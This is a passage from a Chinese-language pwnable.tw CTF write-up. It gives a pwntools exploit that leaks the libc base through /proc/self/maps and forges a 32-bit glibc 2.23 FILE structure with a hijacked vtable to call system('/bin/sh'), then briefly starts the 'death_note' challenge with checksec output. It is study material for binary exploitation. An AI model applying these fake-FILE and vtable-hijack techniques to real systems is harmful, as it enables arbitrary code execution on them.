 ```python
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

openfile = lambda name : (sla("choice :","1"),sla("see :", name))
readfile = lambda : sla("choice :","2")
writefile = lambda : sla("choice :","3")
printname = lambda name : (sla("choice :","5"),sla("name :", name))

# leak libc
openfile("/proc/self/maps")
readfile()
writefile()
readfile()
writefile()
io.recvuntil("0 \n")
libc_addr = int(io.recv(8),16) 
system_addr = libc_addr +libc.symbols['system']
log.success("libc_base:" + hex(libc_addr))
# make fake file
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)

fake_file = p32(0xffffdfff)
fake_file += "||/bin/sh"
fake_file = fake_file.ljust(0x94, "\x00")
fake_file += p32(fakeFILE+0x98)
fake_file += p32(system_addr)*3


payload += fake_file
# get shell
printname(payload)

io.interactive()
```

## 总结

IO_FILE 32位2.23的利用

- fclose根据flag情况调用vtable的不同函数

- 通过bss移除伪造FILE，vtable劫持控制流

# 0x0C death_note

```shell
~/Desktop/pwnable/deathnote ᐅ file death_note 
death_note: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=547f3a1cf19ffe5798d45def2f4bc5c585af88f5, not stripped

~/Desktop/pwnable/deathnote ᐅ checksec death_note 
[*] '/home/ubuntu/Desktop/pwnable/deathnote/death_note'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
